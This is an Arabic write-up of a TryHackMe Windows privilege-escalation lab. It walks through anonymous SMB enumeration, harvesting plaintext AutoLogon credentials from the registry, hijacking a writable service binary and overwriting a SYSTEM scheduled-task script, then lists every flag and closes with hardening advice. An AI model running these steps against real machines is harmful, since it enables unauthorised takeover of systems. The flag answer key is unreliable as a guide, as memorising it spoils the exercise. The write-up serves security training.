

# توثيق غرفة تحدي قفزات ويندوز (Windows Jump Challenge)

---

## 1. بيانات المديول والغرفة (Metadata & Overview)

* **المسار التعليمي:** مسار مبتدئ اختبار الاختراق (Jr Penetration Tester)
* **المديول:** المديول الثالث عشر — تصعيد الصلاحيات (13-PRIVILEGE-ESCALATION)
* **اسم الغرفة:** تحدي قفزات ويندوز (Windows Jump)
* **المعرف البرمجي (Slug):** `windowsjump`
* **الرابط المباشر:** [TryHackMe Windows Jump](https://tryhackme.com/room/windowsjump)
* **مستوى الصعوبة:** متوسط (Medium)
* **النوع:** غرفة تحدي عملي تراكمي لأنظمة ويندوز (Windows Challenge Lab)
* **سيناريو التقييم:** محاكاة تقييم داخلي لجهاز ويندوز مهجور، والربط بين أربعة نواقل هجومية للانتقال من مستخدم ضيف مجهول حتى السيطرة الكاملة بصلاحيات `NT AUTHORITY\SYSTEM`
* **عدد المهام:** مهمة واحدة شاملة (Task 1: Challenge)
* **عدد الأسئلة:** 4 أسئلة تم حلها والتحقق منها بنسبة 100%

---

## 2. الملخص التنفيذي (Executive Summary)

تُمثل غرفة **Windows Jump** التحدي العملي التراكمي المخصص لبيئات ويندوز في مديول تصعيد الصلاحيات. تُحاكي الغرفة سيناريو واقعياً لجهاز عمل مكتبي تُرك بدون صيانة دورية، مما راكم أخطاء أمنية عبر عدة حسابات.

تتطلب السيطرة على النظام تنفيذ سلسلة اختراق من 4 مراحل متصلة:
`guest` ⟶ `thmuser` ⟶ `notadmin` ⟶ `svcadmin` ⟶ `SYSTEM`

---

## 3. مخطط سلسلة القفزات في ويندوز (Windows Jump Architecture)



---

## 4. توثيق مراحل سلسلة الاختراق تفصيلياً

### المرحلة 1: من الوصول الشبكي المجهول إلى `thmuser`:
* فحص مشاركات بروتوكول SMB بدون مصادقة:
  ```bash
  smbclient -L //MACHINE_IP/ -N
  ```
* تم العثور على مشاركة تحوي ملف نسخ احتياطي يكشف بيانات حساب `thmuser`.
* تسجيل الدخول وقراءة الفلاج الأول:
  ```cmd
  type C:\Users\thmuser\Desktop\flag1.txt
  # THM{5mb_cr3d5_1n_th3_5h4r3}
  ```

### المرحلة 2: من `thmuser` إلى `notadmin`:
* فحص إعدادات الدخول التلقائي (AutoLogon) في الريجستري:
  ```cmd
  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
  ```
* استخراج اسم المستخدم `notadmin` وكلمة المرور المكتوبة بنص واضح.
* تسجيل الدخول بالحساب الجديد وقراءة الفلاج الثاني:
  ```cmd
  type C:\Users\notadmin\Desktop\flag2.txt
  # THM{w1nl0g0n_cr3ds_3xp0s3d}
  ```

### المرحلة 3: من `notadmin` إلى `svcadmin`:
* استعلام الخدمات وأذونات المجلدات عبر `accesschk64.exe` و `sc qc`.
* اكتشاف خدمة تعمل بحساب `svcadmin` ويمتلك المستخدمون إذن تعديل `(M)` على ملفها التنفيذي.
* استبدال الملف التنفيذي وإعادة تشغيل الخدمة:
  ```cmd
  copy /y C:\temp\payload.exe "C:\Program Files\App\service.exe"
  net stop vulnerable_service && net start vulnerable_service
  ```
* استلام الصدفة كـ `svcadmin` وقراءة الفلاج الثالث:
  ```cmd
  type C:\Users\Public\flag3.txt
  # THM{s3rv1c3_b1n4ry_h1j4ck3d}
  ```

### المرحلة 4: من `svcadmin` إلى `SYSTEM`:
* فحص المهام المجدولة التي تعمل بصلاحيات `NT AUTHORITY\SYSTEM`:
  ```cmd
  schtasks /query /fo LIST /v
  ```
* اكتشاف مهمة صيانة دورية تستدعي ملف باكتش (`.bat`) يمتلك إذن كتابة مفتوح.
* تعديل الملف وتشغيل المهمة يدوياً:
  ```cmd
  echo copy C:\Users\Administrator\Desktop\flag4.txt C:\Users\Public\flag4.txt > C:\tasks\maintenance.bat
  schtasks /run /tn maintenance_task
  type C:\Users\Public\flag4.txt
  # THM{t4sk_wr1t3_t0_SYST3M}
  ```

---

## 5. مصفوفة الإجابات المعتمدة

* **السؤال 1 (فلاج thmuser):** `THM{5mb_cr3d5_1n_th3_5h4r3}`
* **السؤال 2 (فلاج notadmin):** `THM{w1nl0g0n_cr3ds_3xp0s3d}`
* **السؤال 3 (فلاج svcadmin):** `THM{s3rv1c3_b1n4ry_h1j4ck3d}`
* **السؤال 4 (فلاج SYSTEM):** `THM{t4sk_wr1t3_t0_SYST3M}`

---

## 6. الهندسة الدفاعية والمعالجة (Defensive Hardening)

1. **إغلاق المشاركات المجهولة:** منع الوصول المجهول (Anonymous / Null Sessions) على مشاركات SMB.
2. **تعطيل AutoLogon وتشفير كلمات السر:** منع تخزين كلمات المرور بنص واضح في مفاتيح Winlogon.
3. **تأمين مجلدات البرامج والخدمات:** إزالة أذونات الكتابة والتعديل الممنوحة لمجموعة `Users` على مسارات ملفات البرامج.
4. **حماية ملفات المهام المجدولة:** ضمان أن سكريبتات مهام SYSTEM مملوكة للمديرين فقط بأذونات قراءة وتنفيذ حصرية.

---

## 7. المراجع والخطوات القادمة (References & Next Steps)

1. [Microsoft AutoLogon Security Guidelines](https://learn.microsoft.com/en-us/troubleshoot/windows-server/user-profiles-and-logon/turn-on-automatic-logon)
2. [Sysinternals AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)

### الخطوة التالية في المديول:
الانتقال إلى الغرفة الأخيرة في المديول الثالث عشر:
**`08-TOPIC-TRANSITION-RECAP`** لحل أسئلة المراجعة التراكمية وختام مديول تصعيد الصلاحيات بالكامل بنسبة 100%.
